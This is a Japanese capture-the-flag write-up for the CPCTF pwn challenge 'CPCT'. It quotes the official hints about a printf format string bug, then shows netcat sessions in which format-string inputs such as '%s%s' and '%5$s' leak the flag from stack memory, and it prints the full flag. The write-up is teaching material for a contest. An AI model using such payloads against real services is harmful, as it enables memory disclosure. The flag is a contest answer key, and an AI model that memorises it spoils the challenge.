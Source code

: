 # CPCT......:Pwn:120.72pts
等価交換って良いですよね。ということで、入力した文字数の分だけflagをあげます！  
でも貰いすぎても困るので4文字以内でお願いします……  
`nc cpct.web.cpctf.space 30006`  

[配布ファイル](cpct.zip)  

**Hint1**  
flagをすべて得るには、lengthの値がflagの長さ以上となる必要があります。  
lengthに値を代入している場所を見てみましょう。そこに脆弱性があります。  
**Hint2**  
ズバリ、脆弱性があるのは32行目のprintf関数です。  
printf関数の脆弱性を調べてみると、Format String Bug というものが見つかるはずです。  
この関数でよく使われる、ある記法が重要です。  
**Hint3 (解法)**  
printf関数で使われるフォーマット指定子を入力に含むことで、本来とは違う動作を引き起こすことができます。  
今回は文字を出力できれば良いので、文字を表す %c を使うとよさそうです。  
ここで、 %10c のように間に数字を入れることで、長さを指定することができます。  
今回はできる限りたくさんの文字を出力してほしいので、 %99c などと入力してみましょう。  
これで99文字入力したことになり、無事にflagを得ることができます。  

# Solution
ソースと接続先が渡される。  
試しに接続してみる。  
```bash
$ nc cpct.web.cpctf.space 30006
Please enter some string! (max 4 character)
sato
Thank you!
Your input:sato
Length: 4
This is your reward!
CPCT
```
最大4文字入力でき、その入力文字数だけフラグの断片が得られる。  
FSBだと予想し、`%s%s`とする。  
```bash
$ nc cpct.web.cpctf.space 30006
Please enter some string! (max 4 character)
%s%s
Thank you!
Your input:Thank you!
Your input:(null)
Length: 28
This is your reward!
CPCTF{1m_50rrY_bu7_i_Hav3_0n
```
フラグが入力文字数以上表示されたが、完全でない。  
`%n$s`がちょうど4文字なのでこれを用いて、レジスタやスタックを読みだしてやればよい。  
```bash
$ nc cpct.web.cpctf.space 30006
Please enter some string! (max 4 character)
%1$s
~~~
$ nc cpct.web.cpctf.space 30006
Please enter some string! (max 4 character)
%5$s
Thank you!
Your input:CPCTF{1m_50rrY_bu7_i_Hav3_0nLy_45_ch4raCteRs}
Length: 45
This is your reward!
CPCTF{1m_50rrY_bu7_i_Hav3_0nLy_45_ch4raCteRs}
```
flagが得られた。  

## CPCTF{1m_50rrY_bu7_i_Hav3_0nLy_45_ch4raCteRs}